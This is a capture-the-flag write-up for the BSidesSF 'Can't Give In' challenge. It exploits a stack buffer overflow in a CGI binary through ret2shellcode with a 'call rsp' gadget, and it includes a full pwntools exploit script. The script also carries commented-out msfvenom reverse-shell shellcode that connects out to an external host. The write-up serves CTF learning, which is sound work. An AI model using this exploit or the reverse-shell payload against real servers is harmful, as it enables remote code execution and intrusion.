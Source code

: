 # Can't Give In

## Description

Can you get a shell?

_Note: the binary should have an executable stack and minimal hardening. the goal is RCE._

Flag is located in: `/home/ctf/flag.txt`

Author: ron

http://cant-give-in-4130d4ca.challenges.bsidessf.net:8080/

## Approach

> This was a fun one. Yet i still can't pop a shell 😭. 

So we were given a binary called `auth.cgi`. Upon further analysis, i realized that it is a compiled binary that is facing the internet, and used to evaluate user's input.

From Wikipedia:
```
In computing, Common Gateway Interface (CGI) is an interface specification that enables web servers to execute an external program to process HTTP or HTTPS user requests.

Such programs are often written in a scripting language and are commonly referred to as CGI scripts, but they may include compiled programs.

A typical use case occurs when a web user submits a web form on a web page that uses CGI. The form's data is sent to the web server within an HTTP request with a URL denoting a CGI script. The web server then launches the CGI script in a new computer process, passing the form data to it. The CGI script passes its output, usually in the form of HTML, to the Web server, and the server relays it back to the browser as its response to the browser's request.

Developed in the early 1990s, CGI was the earliest common method available that allowed a web page to be interactive. Due to a necessity to run CGI scripts in a separate process every time the request comes in from a client, various alternatives were developed.
```

Upon connecting to the website, we were given a webpage like below
![alt text](assets/image.png)

When i tried to input some random text, it makes a POST request to the `/cgi-bin/auth.cgi` endpoint with the data as below.

```
password=asdasd
```
![alt text](assets/image-1.png)
![alt text](assets/image-2.png)

When we look into the disassembled binary:
![alt text](assets/image-3.png)

We can see there is a clear buffer overflow by setting the `CONTENT_LENGTH` to be bigger than the buffer size. Since `CONTENT_LENGTH` is modifiable by the user/data.

Also when we take a look at the protection binary.
```shell
[*] "/mnt/d/ctf-writeups/BsideSSF 2024/Can't Give In/auth.cgi"
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```
We can see that NX is disabled. Which mean this is a ret2shellcode challenge. For debugging locally, since this binary is getting the `CONTENT_LENGTH` from the environment variable, i used the following command to set `CONTENT_LENGTH` to a bigger value.

```shell
export CONTENT_LENGTH=1000
```
By trying to overflow the buffer. We get the following response.

```shell
> cat payload | ./auth.cgi
Content-Type: text/plain

[1]    35769 done                              echo  |
       35770 segmentation fault (core dumped)  ./auth.cgi
```
Nice! We got a segfault. Now we can try to exploit this binary. First i look for any gadgets that resembles `jmp rsp` or `call rsp` in the binary. Though i didn't find `jmp rsp`, i do find a `call rsp` gadget that does the same thing.

```
0x00000000004094bb: call rbx;
0x000000000043c4a8: call rcx;
0x0000000000439a1b: call rdi;
0x0000000000417daf: call rdx;
0x000000000043e627: call rsi;
0x00000000004127ca: call rsp; <-- This is the gadget
```

The first thing that crossed my mind when pwning a binary is to pop a shell, or in this case, a `Reverse Shell`. But for some unknown reason (skill issue), i can't get the shell to pop up. So i decided to just directly read the flag instead. Since we know where our flag is located, we can just read the flag.

So to get the flag, we just need to send a POST request to the `/cgi-bin/auth.cgi` endpoint with our payload as the data. Since `CONTENT_LENGTH` is dynamically set, we can just send the payload and not bothering with the header request.

![alt text](assets/image-5.png)

## Exploit
```python
#!/usr/bin/python3
from pwn import *
import requests

# =========================================================
#                          SETUP                         
# =========================================================
exe = './auth.cgi' # <-- change this
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
break *main+265
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
def exploit():
    # global io
    # io = initialize()
    offset = 168
    # Generated from msfvenom
    # buf =  b""
    # buf += b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05"
    # buf += b"\x48\x97\x48\xb9\x02\x00\x05\x39\x12\x88\x76\x2b"
    # buf += b"\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05"
    # buf += b"\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75"
    # buf += b"\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
    # buf += b"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6"
    # buf += b"\x0f\x05"
    shellcode = asm(shellcraft.cat("/home/ctf/flag.txt"))
    call_rsp = 0x4127ca
    
    payload = flat(
        b'\x90' * offset,
        call_rsp,
        b'\x90' * 8,
        # buf
        shellcode
    )
    
    response = requests.post("http://cant-give-in-4130d4ca.challenges.bsidessf.net:8080/cgi-bin/auth.cgi", data=payload)
    print(response.text)

    # io.send(payload)
    
    # io.interactive()
    
if __name__ == '__main__':
    exploit()
```

## Flag
```
CTF{certified-genuine-instructions}
```
